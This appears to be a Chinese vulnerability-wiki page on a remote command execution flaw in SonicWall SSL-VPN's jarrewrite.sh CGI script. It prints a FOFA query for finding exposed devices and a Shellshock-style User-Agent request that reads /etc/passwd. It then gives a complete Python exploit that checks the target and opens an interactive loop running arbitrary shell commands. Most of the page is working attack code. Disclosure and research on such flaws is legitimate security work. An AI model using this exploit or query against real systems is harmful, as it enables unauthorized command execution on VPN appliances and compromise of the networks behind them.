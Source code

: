 # SonicWall SSL-VPN 远程命令执行漏洞

## 漏洞描述

SonicWall SSL-VPN 远程命令执行在1月24日被公开 EXP，此设备存在远程命令执行漏洞

## 漏洞影响

> [!NOTE]
>
> SonicWall SSL-VPN 

## FOFA

> [!NOTE]
>
> app="SONICWALL-SSL-VPN"

## 漏洞复现

出现漏洞的文件为 **/cgi-bin/jarrewrite.sh**

```bash
#!/bin/bash

# jarrewrite.sh:
# Script takes a jar/class file and a working directory; modifies class files
# within the jar and repackages them.

USAGE_STR="Usage: $0 <jar/class file> <path-to-working directory>"

# Validate number of args
if [ $# -ne 2 ]; then
echo ${USAGE_STR};
exit -1;
fi

for param in $*; do
    if [ "$param" == "-h" ]; then
        echo ${USAGE_STR};
        exit 1;
    fi
done

# constants
BOUNDARY="-------------------------------------------------------------"
BASE_DIR=/tmp
JAVA_SRC=$1
WDIR=$2
CWD=`pwd`
FULL_JAVA_SRC_PATH=${BASE_DIR}/${WDIR}/${JAVA_SRC}
CLASSES_DIR=classes
META_INF_DIR=${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF
MANIFEST=${META_INF_DIR}/MANIFEST.MF
MANIFEST_DIGEST_FILE=${META_INF_DIR}/SWALL_SIGNATURE.SF
SIGNATURE_FILE=${META_INF_DIR}/SWALL_SIGNATURE.DSA
CODESIGNER_CRT=./../../var/cs_cert/httprpCodeSignerX509Crt.pem
CODESIGNER_PVTKEY=./../../var/cs_cert/httprpCodeSignerPvtkey.pem
DO_SIGN=0

if [ ! -f  ${FULL_JAVA_SRC_PATH} ];then
echo "File not found: ${FULL_JAVA_SRC_PATH}";
exit -2;
fi

if [ ${JAVA_SRC##*.} == "jar" ]
# Using bracket in variable substitution.
then

# organize
mkdir ${BASE_DIR}/$WDIR/$CLASSES_DIR

# unzip jar
unzip -d ${BASE_DIR}/${WDIR}/${CLASSES_DIR} ${FULL_JAVA_SRC_PATH};

# Simple sanity check to see if the JAR has already been signed. 
# FIXME: This is not a complete check,because the original JAR signature 
# has to be verified completely otherwise a malicious applet
# could access the local resources with SSL VPN signing it.

old_sf_files=`/bin/ls ${META_INF_DIR}/*.[sS][fF] `
old_sign_files=`/bin/ls ${META_INF_DIR}/*.[rRdD][sS][aA] `

for sf_file in $old_sf_files
do
	for sign_file in $old_sign_files
    do
        DO_SIGN=1;
        break
    done;
    break;
done

# remove all manifest info including signatures
# remove all that match mf|MF|sf|SF or dsa|DSA|rsa|RSA
rm -f ${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF/*.[sSmM][fF] ${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF/*.?[sS][aA]

OUTPUT_JAR="${FULL_JAVA_SRC_PATH}"

classfiles=`/usr/bin/find ${BASE_DIR}/${WDIR}/${CLASSES_DIR} -type f`

#New Manifest file
MANIFEST_MAIN_ATTR="Manifest-Version: 1.0\nCreated-By: 1.0 (SonicWALL Inc.)\n"

echo -e "Creating Manifest file ... " 
echo -e ${MANIFEST_MAIN_ATTR} > ${MANIFEST}

for file in $classfiles
do
	echo $BOUNDARY
	echo $file
	echo $BOUNDARY
	./jdasm $file $file

	#Update manifest file
	SHA1_MANIFEST_ENTRY_CLASS=`openssl dgst -sha1 -binary $file | openssl base64`
	MANIFEST_ENTRY="Name: ${file##${BASE_DIR}/${WDIR}/${CLASSES_DIR}/}\nSHA1-Digest: ${SHA1_MANIFEST_ENTRY_CLASS}\n"
	echo -e ${MANIFEST_ENTRY} >> ${MANIFEST}

	echo $BOUNDARY
done

if [ ${DO_SIGN} == 1 ]; then
echo -e "Creating Manifest Signature file and Signature block" >> $OUTLOG
/usr/sbin/sw_jarsigner -m ${MANIFEST} -s ${MANIFEST_DIGEST_FILE} -S ${SIGNATURE_FILE} -c ${CODESIGNER_CRT} -k ${CODESIGNER_PVTKEY}
fi

rm -f ${FULL_JAVA_SRC_PATH}
cd ${BASE_DIR}/${WDIR}/${CLASSES_DIR};
zip -r ${OUTPUT_JAR} *
cd ${CWD}

# clean
rm -Rf ${BASE_DIR}/${WDIR}/${CLASSES_DIR}

elif [ ${JAVA_SRC##*.} == "class" ]; then
# if file is a class

if [ ! -e  ${FULL_JAVA_SRC_PATH} ];then
echo "File not found: ${FULL_JAVA_SRC_PATH}";
exit -2;
fi
./jdasm ${FULL_JAVA_SRC_PATH} ${FULL_JAVA_SRC_PATH};
fi 

echo "Recursive Class Rewrite Completed."
exit 0;

```

这个文件存在命令注入漏洞，漏洞触发在 **Usage-Agent** 

发送如下请求即可命令执行

![](http://wikioss.peiqi.tech/vuln/son-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```shell
GET https://xxx.xxx.xxx.xxx/cgi-bin/jarrewrite.sh
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'	
```

发送请求会下载一个文件，文件内容为命令执行的结果

![](http://wikioss.peiqi.tech/vuln/son-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: SonicWall SSL-VPN                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/cgi-bin/jarrewrite.sh"
    headers = {"User-Agent": "() { :; }; echo ; /bin/bash -c '%s'" % (cmd)}
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/cgi-bin/jarrewrite.sh \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/cgi-bin/jarrewrite.sh"
    headers = {"User-Agent": "() { :; }; echo ; /bin/bash -c '%s'" % (cmd)}
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)

```

![](http://wikioss.peiqi.tech/vuln/son-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> SonicWall_SSL_VPN_RCE.json

![](http://wikioss.peiqi.tech/vuln/son-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 参考文章

https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit/